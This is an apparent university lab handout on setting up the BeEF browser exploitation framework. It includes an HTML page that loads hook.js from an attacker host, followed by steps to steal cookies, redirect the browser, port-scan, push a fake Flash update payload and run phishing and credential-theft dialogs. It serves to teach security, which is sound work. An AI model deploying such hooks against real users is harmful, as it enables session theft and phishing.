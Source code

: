 <h5><em>ver: Aug-2022</em></h5>

---

<h2>Browser Exploitation Framework (BeEF)</h2>

Refer to https://beefproject.com/

<h4>Setup BeEF</h4>

1. Install BeEF on Kali Linux (Not a default tool)
2. Setup BeEF configuration file (set id and password)
3. Open BeEF
4. Open a web browser and go to "http://localhost:3000/ui/authentication".
5. Enter the id and passwd to the browser

```sh
sudo apt install beef-xss
# set id/passwd. Default valeus does not work.
sudo nano /etc/beef-xss/./config.yaml
cd /usr/share/beef-xss
./beef

```

---

<h4>Exploitation Example</h4>

1. Identify attacker's ip-address

```sh
ifconfig
```

2. Identify victiom's ip-address

```sh
ipconfig
ping attack-ip-address
```

3. Create a compromised web page by hooking the BeEF script

```html
<html lang="en">
    <head>
        <title>CS 435 Demo Page (BeEF)</title>
    </head>
    <body>
        <script src="http://attacker-server-ip-address:3000/hook.js"></script>
        <h2>This is CS 435 Demo Page</h2>
        <h4>School of Arts and Sciences</h4>
        <h4>Carolina University</h4>
        <h3>THIS IS A MALICIOUS WEB-PAGE</h3>
        <a href="http://cnn.com"> LINK to "cnn.com" </a>
    </body>
</html>
```

4. A victim's web-browser access to the compromised web-server. (Attacker's server)

5. Verify hook-ups on BeEF

   5-1. Current Browser -> Details
   
   5-2. Current Browser -> Network

6. Control the victim's web-browser.

    5-1. Current Browser -> Command -> Browser -> Get Cookie -> check Command results
    
    5-2. Current Browser -> Command -> Browser -> Redirect Browser (iFrame) -> set New Favicon & Redirect URL (Monitor the url window)
    
    5-3. Current Browser -> Command -> Network -> Port Scanner -> set ip-address for scanning
    
    5-4. Current Browser -> Command -> Social Engineering -> Fake Flash Update -> set Image & Custom Payload URL
    
    5-5. Current Browser -> Command -> Social Engineering -> Google Phishing -> set XSS hook URI -> check Command results
    
    5-6. Current Browser -> Command -> Social Engineering -> Pretty Theft -> set Dialog Type & Custom Logo -> check Command results
